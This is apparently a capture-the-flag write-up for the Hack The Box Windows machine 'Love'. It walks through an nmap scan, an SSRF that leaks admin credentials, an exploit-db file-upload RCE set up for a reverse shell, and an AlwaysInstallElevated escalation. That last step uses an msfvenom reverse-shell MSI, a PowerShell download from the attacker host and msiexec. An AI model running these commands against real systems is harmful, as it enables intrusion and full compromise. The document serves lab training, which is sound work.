



# Love (Easy - Windows)

## Recon
### Nmap
```console
$ nmap -Pn --open -sC -sV -p- 10.10.10.239                                                        130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-17 23:47 EST
Nmap scan report for 10.10.10.239
Host is up (0.014s latency).
Not shown: 54971 closed ports, 10545 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, NULL, NotesRPC: 
|_    Host '10.10.14.17' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2022-01-18T06:11:54+00:00; +1h21m33s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=1/17%Time=61E64661%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.17'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusReq
SF:uestTCP,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.17'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NotesRP
SF:C,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.17'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3h21m33s, deviation: 4h00m01s, median: 1h21m32s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-01-17T22:11:40-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-18T06:11:42
|_  start_date: N/A
```

A virtual hosting identified: `staging.love.htb`
```
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/coun
```

Added to `/etc/hosts'
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts                                                                                    1 ⨯
127.0.0.1       localhost
127.0.1.1       kali

# htb
10.10.10.239    staging.love.htb
```


## Initial Access
### SSRF (Server-side Request Forgery)
Additional page called `beta.php` found:



Testing if we could hit our Kali's web server from this `beta.php` page:



And it worked:
```
┌──(kali㉿kali)-[~/htb/box/love]
└─$ sudo python3 -m http.server 80                                                                    1 ⨯
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.239 - - [18/Jan/2022 00:11:54] "GET / HTTP/1.1" 200 -
```

If we try a local loopback address with port `5000`, we can obtain a set of credentials:
</br>
--> `admin : @LoveIsInTheAir!!!!`



### RCE on Voting System
[Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)](https://www.exploit-db.com/exploits/49445)

```python
# --- Edit your settings here ----
IP = "10.10.10.239" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.17" # Reverse shell IP
REV_PORT = "443" # Reverse port 
# --------------------------------
```

Also we have to update the URL by removing `/votesystem` from the below part:

```python
INDEX_PAGE = f"http://{IP}/votesystem/admin/index.php"
LOGIN_URL = f"http://{IP}/votesystem/admin/login.php"
VOTE_URL = f"http://{IP}/votesystem/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/votesystem/images/shell.php"
```

Executing the PoC payload:
```
┌──(kali㉿kali)-[~/htb/box/love]
└─$ sudo python3 exploit.py

Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully
```

```
┌──(kali㉿kali)-[~/htb/box/love]
└─$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.239] 49924
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

### user.txt
```
c:\Users\Phoebe\Desktop>type user.txt
type user.txt
eec7__REDACTED__b007
```

## Privesc
### AlwaysInstallElevated
Further enumeration identified that `AlwaysInstallEleveated` registry key is set to 1, which is insecure. 

Generating a payload:
```
┌──(kali㉿kali)-[~/htb/box/love]
└─$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=9002 -f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
```

Transfering the payload:
```
c:\Users\Phoebe\Desktop>powershell wget http://10.10.14.17:8001/rev.msi -outfile rev.msi
powershell wget http://10.10.14.17:8001/rev.msi -outfile rev.msi
```

```
┌──(kali㉿kali)-[~/htb/box/love]
└─$ sudo python3 -m http.server 8001                         
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.10.239 - - [18/Jan/2022 00:41:00] "GET /rev.msi HTTP/1.1" 200 -
```

Executing the payload:
```
c:\Users\Phoebe\Desktop>msiexec /quiet /qn /i rev.msi
msiexec /quiet /qn /i rev.msi
```

### root.txt
```
┌──(kali㉿kali)-[~/htb/box/love]
└─$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.239] 49928
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>type c:\Users\Administrator\Desktop\root.txt
type c:\Users\Administrator\Desktop\root.txt
12fe__REDACTED__bdb0
```